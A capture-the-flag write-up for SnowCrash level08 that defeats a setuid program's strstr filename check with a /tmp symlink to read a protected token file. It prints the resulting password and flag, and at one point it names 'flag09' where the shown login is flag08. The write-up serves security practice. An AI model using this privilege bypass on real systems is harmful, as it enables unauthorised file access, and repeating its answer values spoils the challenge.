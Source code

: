 # level08

## Recognition

There is a file named 'token' owned only by flag08, which might contain something interesting.
There is also a program named level08 which is owned by flag08.
```bash
level08@SnowCrash:~$ ls -l
total 16
-rwsr-s---+ 1 flag08 level08 8617 Mar  5  2016 level08
-rw-------  1 flag08 flag08    26 Mar  5  2016 token
```

When running the level08 program, we can see that it tries to open a file, however if the path to the file or the name of the file is 'token', the program will not open it.
```bash
level08@SnowCrash:~$ ./level08 
./level08 [file to read]
level08@SnowCrash:~$ ./level08 owned_file
hello world
level08@SnowCrash:~$ ./level08 token
You may not access 'token'
level08@SnowCrash:~$ ./level08 /home/users/level08/token
You may not access '/home/users/level08/token'
```

When using `strings` on the program, we can see that it uses the `strstr` function which checks for a string in a string, and might be the way it checks for the 'token' word in the input path.
```bash
level08@SnowCrash:~$ strings level08 
[...]
strstr
[...]
```

</br>
</br>

## Exploitation

Since we know that we can't open any files wich contains the word token, we can try to open the 'token' file at the home of level08 by using a symbolic link to it which does not contain the word 'token'.
```bash
level08@SnowCrash:~$ ln -s $HOME/token /tmp/bypass
level08@SnowCrash:~$ ./level08 /tmp/bypass
quif5eloekouj29ke0vouxean
```

We can then log in as 'flag09' using the previous password, and run `getflag`.
```bash
flag08@SnowCrash:~$ getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```